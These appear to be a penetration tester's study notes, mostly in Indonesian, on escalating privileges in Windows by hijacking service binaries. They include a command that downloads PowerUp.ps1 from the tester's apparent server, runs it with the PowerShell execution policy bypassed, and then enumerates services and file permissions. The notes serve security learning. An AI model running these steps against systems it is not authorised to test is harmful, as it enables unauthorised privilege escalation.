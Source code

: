 
## Service Binary Hijacking [PENTING] #IMPORTANT
>> BUAT TRIGGER SERVICE, SELALU COBA MATIIN DAN NYALAIN SERVICE. JGN CUMA RESTART AJA. [PENTING]

Scenario: KITA PUNYA PERMISSION BUAT REPLACE SERVICE BINARY. Write or Full Access (fullaccess)
>> BUAT MEMUDAHKAN CHECK PAKE PowerUp.ps1 aja.
```cmd
iwr -uri http://192.168.45.168:8000/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
>> Penjelasan di module, `Install-ServiceBinary` PowerUP rusak karena dia cek pake "Get-ModifiablePath" yang di mana kalo Servicenya jalan pake argument yg ada stripnya (-) dia error. Ex:
- C:\xampp\mysql\bin\mysqld.exe >> aman
- C:\xampp\mysql\bin\mysqld.exe argument >> aman
- C:\xampp\mysql\bin\mysqld.exe argument --conf=C:\asd\as.conf >> RUSAK

>> MAKANNYA HARUS SELALU CEK MANUAL SMW. INGET KASUSNYA AlwaysInstallElevated? AbuseFunction PowerUp.ps1 GK SELALU BEKERJA, PADAHAL PROGRAMNYA BENERAN VULNERABLE.

1. List installed windows services
```cmd (CUMA BISA KALO KITA KONEK PAKE RDP)
Get-Service
```
```cmd (CUMA BISA KALO KITA KONEK PAKE RDP)
Get-CimInstance
```
```cmd
Get-WmiObject
```
```cmd
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

Get-CimInstance -ClassName win32_service | Select-Object Name, State, PathName | Where-Object { $_.State -eq 'Running' -and $_.PathName -notmatch 'System32' }

Get-CimInstance -ClassName win32_service | Select-Object Name, State, PathName | Where-Object { $_.PathName -notmatch 'System32' }
```
>> Kalo binarynya bukan di C:\Windows\System32, berarti itu user-installed dan worth checking.
>> jgn yang dalan C:\Windows juga harusnya
>> BISA JADI BINARY SUSPICIOUSNYA ADA DI SYSTEM32. ASLI

2. Enumerate permission on the service binaries
```cmd
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
or
Get-Acl "C:\xampp\apache\bin\httpd.exe"
```
icacls permission table
